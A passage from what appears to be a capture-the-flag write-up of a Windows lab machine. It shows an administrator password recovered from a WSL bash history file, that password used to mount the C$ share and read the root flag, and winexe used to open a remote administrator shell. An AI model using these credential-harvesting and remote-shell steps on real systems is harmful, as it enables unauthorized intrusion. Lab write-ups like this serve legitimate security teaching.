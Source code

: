 ```
06/22/2018  01:44 PM    <DIR>          .
06/22/2018  01:44 PM    <DIR>          ..
06/22/2018  02:09 AM             3,112 .bashrc
01/13/2019  10:04 AM               443 .bash_history
06/21/2018  05:00 PM               148 .profile
06/22/2018  01:56 AM    <DIR>          filesystem
               3 File(s)          3,703 bytes
               3 Dir(s)  33,220,313,088 bytes free

```

The `.bash_history` is available here as well:

```

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>type .bash_history | findstr smbclient
type .bash_history | findstr smbclient
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$

```

### Root FS Access

One way to use the administrator creds is to connect to the localhost `c$` share:

```

C:\inetpub\new-site>net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
The command completed successfully.

C:\inetpub\new-site>type \\127.0.0.1\c$\users\administrator\desktop\root.txt
type \\127.0.0.1\c$\users\administrator\desktop\root.txt
7250cde1...

```

I could also do the same thing with `smbclient` from my kali box.

### Shell as administrator

Better yet, I want a shell. With admin creds, I can now use `winexe` (or `psexec.py`) to get a shell on the box:

```

root@kali# winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
secnotes\administrator

```
